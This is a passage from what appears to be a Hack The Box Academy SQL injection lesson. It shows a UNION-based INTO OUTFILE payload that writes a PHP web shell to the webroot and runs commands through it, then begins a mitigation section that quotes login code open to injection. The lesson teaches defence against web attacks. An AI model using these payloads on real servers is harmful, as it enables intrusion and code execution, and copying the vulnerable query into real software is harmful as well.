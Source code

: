 We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:
![write_proof_text](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

### Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

http://SERVER_IP:PORT/search.php?port_code=cn' union select " ",'<?php system($_REQUEST[0]); ?>', " ", " " into outfile '/var/www/html/shell.php'-- -
```
![write_shell](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:
```
http://SERVER_IP:PORT/shell.php?0=id
```
![write_shell_exec_1](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the `id` command confirms that we have code execution and are running as the `www-data` user. We can also use `?0=ls /` in our URL for `ls /` command.

# Mitigations

## Mitigating SQL Injection

### Input Sanitization

Here's the snippet of the code from the authentication bypass section we discussed earlier:
```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```